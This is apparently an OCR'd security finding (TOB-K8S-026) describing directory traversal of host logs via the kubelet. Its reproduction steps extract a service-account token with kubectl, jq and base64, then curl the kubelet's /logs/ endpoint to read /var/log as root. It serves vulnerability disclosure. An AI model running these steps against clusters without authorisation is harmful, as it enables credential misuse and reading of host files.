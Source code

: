# kubernetes-TOB-K8S-026
Directory traversal of host logs running kube-apiserver and kubelet

```
AWS_PROFILE=testing kubectl get secret
NAME                  TYPE                                  DATA      AGE
<token-name>  kubernetes.io/service-account-token   X         XXXd
```
```
AWS_PROFILE=testing kubectl get secret <token-name> -o json | jq -Mr '.data.token' | base64 -d
```

Go to your K8s Node

```
curl -k -H "Authorization: Bearer $MY_TOKEN" "https://<node-ip>:10250/logs/"
```

And you should see /var/log with it subdirectories on the kubelet. You can enter directories and read with permission of root.
